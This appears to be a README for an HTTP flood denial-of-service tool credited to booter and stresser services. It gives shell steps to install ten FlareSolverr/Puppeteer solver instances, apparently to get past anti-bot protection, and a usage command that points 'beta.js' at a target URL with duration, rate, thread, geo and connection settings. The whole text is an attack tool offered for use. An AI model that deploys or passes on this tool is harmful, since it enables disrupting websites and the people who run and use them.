 ## HTTP Browser method using FlareSolverr

### Installation

Before you can use the script, you'll need to install Node.js on your system

```shell
sh install.sh
unzip solvers.zip
install the other depedencies as the script asks with 'npm i name'
cd solvers/flaresolver01; export PUPPETEER_PRODUCT=firefox; npm install
cd ../; cd flaresolver02; export PUPPETEER_PRODUCT=firefox; npm install
cd ../; cd flaresolver03; export PUPPETEER_PRODUCT=firefox; npm install
cd ../; cd flaresolver04; export PUPPETEER_PRODUCT=firefox; npm install
cd ../; cd flaresolver05; export PUPPETEER_PRODUCT=firefox; npm install
cd ../; cd flaresolver06; export PUPPETEER_PRODUCT=firefox; npm install
cd ../; cd flaresolver07; export PUPPETEER_PRODUCT=firefox; npm install
cd ../; cd flaresolver08; export PUPPETEER_PRODUCT=firefox; npm install
cd ../; cd flaresolver09; export PUPPETEER_PRODUCT=firefox; npm install
cd ../; cd flaresolver10; export PUPPETEER_PRODUCT=firefox; npm install
python start_solvers.py
```

### Usage

```shell
node beta.js "https://website.com" 600 64 GET --mode browser --geo all --conn 32
```

Method hacked from Booter.sx, released by StresserUS - method updated and upgraded to HTTP/2 by forky and Ch2K1t

Hacked by T13R and forky
